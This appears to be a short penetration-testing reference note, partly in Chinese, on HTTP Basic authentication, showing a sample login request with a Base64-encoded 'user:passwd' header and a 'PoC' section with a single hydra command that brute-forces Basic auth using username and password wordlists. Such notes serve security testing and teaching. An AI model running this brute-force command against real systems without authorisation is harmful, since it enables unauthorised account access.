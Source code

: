 The "Basic" Hypertext Transfer Protocol (HTTP) authentication scheme transmits credentials as user-id/password pairs encoded using Base64.

## 1. Fingerprint

访问网站时的登录窗口

![](./../../../images/Basic_Auth/%E8%AE%BF%E9%97%AE%E7%BD%91%E7%AB%99%E6%97%B6%E7%9A%84%E7%99%BB%E5%BD%95%E7%AA%97%E5%8F%A3.png)

登录时的请求包

```
GET / HTTP/1.1
Host: 192.168.36.55:81
Authorization: Basic dXNlcjpwYXNzd2Q=


```

> `dXNlcjpwYXNzd2Q=` 为 Base 64 编码后的 `user:passwd` 

## 2. PoC

```
hydra 192.168.36.55 -s 81 http-get / -L username.txt -P password.txt -e ns -vV
```

---

References

- [The 'Basic' HTTP Authentication Scheme](https://datatracker.ietf.org/doc/html/rfc7617)